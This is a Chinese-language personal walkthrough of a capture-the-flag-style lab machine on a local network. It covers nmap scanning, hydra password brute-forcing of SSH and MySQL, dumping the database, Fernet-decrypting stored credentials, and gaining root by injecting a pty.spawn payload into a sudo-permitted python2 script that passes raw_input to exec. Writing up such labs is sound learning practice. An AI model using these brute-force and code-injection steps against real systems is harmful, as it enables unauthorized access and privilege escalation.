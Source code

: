 # 笔记

## 战前准备环节

1.虚拟机突然断网

首先ifconfig，可以看到没有正在工作的网卡，只有localhost

然后ifconfig -a，可以看到eth0这块网卡并没有离家出走，只是罢工了而已

进入/etc/network

用vim打开interface文件

加入

auto eth0

iface eth0 inet dhcp

:wq保存



命令行执行/etc/init.d/networking restart



## 正式开始

### 信息收集

1.获取目标主机信息

可以用arp-scan -l扫描到靶机，但我是直接看靶机信息的

![image-20231027162452716](D:\1-政企业务\pics\image-20231027162452716.png)

192.168.127.129

2.作端口扫描

nmap -p- 192.168.127.129

![image-20231027162540094](D:\1-政企业务\pics\image-20231027162540094.png)

有一个mysql端口，另一个还不知道，再扫版本和信息

nmap -p3306,1337 -sC -sV 192.168.127.129

![image-20231027162706141](D:\1-政企业务\pics\image-20231027162706141.png)

另一个是ssh端口



### 开始渗透

准备爆破字典

cp /usr/share/wordlists/rockyou.txt.gz . 

这行指令还真能搞出来一个文件，**具体原理还不知道，需要后续学习**

gunzip rockyou.txt.gz 



对ssh端口和mysql端口分别进行爆破（使用hydra）

hydra -l root -P rockyou.txt ssh://192.168.127.129:1337/

hydra -l root -P rouckyou.txt mysql://192.168.127.129

得到mysql上爆破成功

![image-20231027163006644](D:\1-政企业务\pics\image-20231027163006644.png)



登录mysql

mysql -u root -h 192.168.127.129 -p

输入密码，登录

爆库，爆表

![image-20231027163132349](D:\1-政企业务\pics\image-20231027163132349.png)

![image-20231027163145367](D:\1-政企业务\pics\image-20231027163145367.png)

fernet解密：https://cryptography.io/en/latest/fernet/

填入参数来解密

![image-20231027163233879](D:\1-政企业务\pics\image-20231027163233879.png)

得到的用户名和密码，尝试ssh登录

ssh lucy@192.168.127.129 -p 1337

![image-20231027163414692](D:\1-政企业务\pics\image-20231027163414692.png)

成功登录，然后sudo -l查看当前用户能够做什么

能够python2运行exp

先cat /opt/exp.py看里面是什么

![image-20231027163509358](D:\1-政企业务\pics\image-20231027163509358.png)

### 提权

raw_input函数，可以尝试python2提权，参考https://blog.csdn.net/qq_40898302/article/details/124681969

 -c : 执行具体的代码

import ：导入语句

pty ： 终端（接口）

pty.spawn : 执行命令

import pty;pty.spawn('/bin/bash')

执行之后，提权成功

![image-20231027163639280](D:\1-政企业务\pics\image-20231027163639280.png)

## 知识点总结

1.使用arp-scan扫描本网段下存活的主机

然后nmap扫描端口，对未知端口可以使用-sC -sV探测详细信息

2.准备爆破字典的两个命令，需要再学习

3.hydra语句爆破的学习

4.mysql语句连接的学习，以及在数据库中查询语句的学习

5.fernet加密的学习，包括使用python3解密的学习

![image-20231027164332984](D:\1-政企业务\pics\image-20231027164332984.png)

6.成功连接主机之后的提权：sudo -l查看当前用户的权限

对代码审计的理解，raw_input是经典的函数

![image-20231027164240323](D:\1-政企业务\pics\image-20231027164240323.png)

且有exec函数，考虑代码注入



### 问题点

#### 爆破字典指令是怎么实现的



#### mysql查出的关键信息如何判定就是用于ssh的



#### /bin/bash一段的重要性？在mysql环节是有使用到的



#### python2提权代码的深入理解

经过验证，直接su也可以

![image-20231027165454287](D:\1-政企业务\pics\image-20231027165454287.png)

(root)NOPASSWD指明了使用sudo权限的时候使用这些命令不需要输入密码

import pty;

pty.spawn('su')

这两行就是执行su的意思

由于raw_input接收了这两行，并且被exec执行

因此原代码行等价于

sudo python2 exec(import pty;pty.spawn('su'))

又因为使用python2 执行exp.py不需要密码

因此等价于

sudo su且不需要输入密码

因此能提权成功

